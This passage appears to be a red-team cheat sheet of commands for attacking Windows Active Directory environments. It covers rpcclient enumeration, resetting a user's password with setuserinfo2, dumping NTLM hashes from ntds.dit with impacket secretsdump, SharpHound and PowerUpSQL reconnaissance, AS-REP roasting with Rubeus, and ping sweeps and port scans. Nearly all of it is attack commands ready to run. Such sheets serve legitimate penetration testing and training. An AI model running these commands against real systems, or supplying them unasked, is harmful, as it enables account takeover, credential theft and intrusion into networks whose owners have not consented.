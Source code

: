 ```text
enumprivs
```

### Change user access

```text
setuserinfo2 audit2020 23 'redteam'
```

### Show printers

```text
enumprinters
```

## NTLM extraction from ntds.dit file

```text
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system -
hashes lmhash:nthash LOCAL -output nt-hash
```

## Gather information using SharpHound

```text
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe
.\SharpHound.exe
or
SharpHound.exe -c All --zipfilename output.zip
```

## Gather information about Sql Server

```text
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1
. .\PowerUpSQL.ps1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Obtain AS-REP Roast hash

```text
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
.\Rubeus.exe asreproast
```

## List of available ips without using nmap

```text
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.
```

Or

```text
https://github.com/sperner/PowerShell/blob/master/PortScan.ps1
.\PortScan.ps1
.\PortScan.ps1 10.10.10.10 1 10000
```

## Service identification with Test-WSMan

```text
PS> Test-WSMan -ComputerName <COMPUTERNAME> -Port 6666
```